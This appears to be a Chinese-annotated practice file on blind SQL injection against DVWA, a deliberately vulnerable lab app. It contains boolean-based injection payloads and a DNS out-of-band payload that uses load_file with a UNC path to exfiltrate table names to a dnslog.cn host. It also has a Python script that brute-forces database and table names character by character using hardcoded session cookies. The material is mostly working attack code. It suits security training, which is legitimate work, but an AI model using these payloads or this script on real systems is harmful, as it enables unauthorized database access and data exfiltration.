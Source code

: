 ```sql
需要爆出有几个表

dnslogsqlinj

`?id=1 and substr(database(),1,1)='x'`

`?id=1 and substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,1)='f'`

`1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.h6xj05.dnslog.cn\\aaa'))),1,1)--+`


面对dvwa脚本
import string
import urllib.parse
import requests

"select * from users where username='admin' or '1'='1' and password=1"
all = string.ascii_letters + string.digits + '$'
# 字母+数字

#爆库名
def request_Database(url):
    flag = 1
    final = ''
    while flag == 1:
        for i in all:
            cookie={'security':'low', 'PHPSESSID':'1hri9q8o9e0r55d079fssrdp96'}
            payload=f'''1' and substr(database(),1,{len(final+i)})='{final + i}'''

            param = {"id": payload,"Submit": "Submit"}
            req = requests.get(url=url, params=urllib.parse.urlencode(param),cookies=cookie)
            if 'exists' in req.text and 'MISSING' not in req.text:
                final+=i
                break
            if i == '$':
                flag = 0
    print('库名为：',final)
    return final

#爆表名
def request_Table(url,database,table_number):
    flag = 1
    final = ''
    while flag == 1:
        for i in all:
            cookie = {'security': 'low', 'PHPSESSID': '1hri9q8o9e0r55d079fssrdp96'}
            payload = f'''1' and substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),1,{len(final+i)})='{final + i}'''

            param = {"id": payload, "Submit": "Submit"}
            req = requests.get(url=url, params=urllib.parse.urlencode(param), cookies=cookie)
            if 'exists' in req.text and 'MISSING' not in req.text:
                final += i
                break
            if i == '$':
                flag = 0
    print('表名为：', final)


if __name__ == '__main__':
    url = 'http://192.168.93.129/DVWA-master/vulnerabilities/sqli_blind/'
```